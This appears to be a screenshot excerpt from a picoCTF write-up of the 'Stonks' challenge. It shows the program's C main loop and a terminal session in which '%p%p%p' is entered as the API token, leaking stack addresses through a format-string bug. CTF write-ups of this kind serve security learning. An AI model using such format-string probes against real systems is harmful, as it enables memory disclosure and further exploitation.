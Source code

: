 ```bash
void free_portfolio(Portfolio *p) {
        Stonk *current = p->head;
        Stonk *next = NULL;
        while (current) {
                next = current->next;
                free(current);
                current = next;
        }
        free(p);
}

int main(int argc, char *argv[])
{
        setbuf(stdout, NULL);
        srand(time(NULL));
        Portfolio *p = initialize_portfolio();
        if (!p) {
                printf("Memory failure\n");
                exit(1);
        }

        int resp = 0;

        printf("Welcome back to the trading app!\n\n");
        printf("What would you like to do?\n");
        printf("1) Buy some stonks!\n");
        printf("2) View my portfolio\n");
        scanf("%d", &resp);

        if (resp == 1) {
                buy_stonks(p);
        } else if (resp == 2) {
                view_portfolio(p);
        }

        free_portfolio(p);
        printf("Goodbye!\n");

        exit(0);
}
                                                                                                                
┌──(kali㉿kali)-[~/picoctf/b_exploitation/Stonks]
└─$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p
Buying stonks with token:
0x89a33900x804b0000x80489c3
Portfolio as of Tue May 16 19:03:03 UTC 2023


1 shares of IMPN
11 shares of DZ
22 shares of SSI
8 shares of ZWI
44 shares of XNXT
```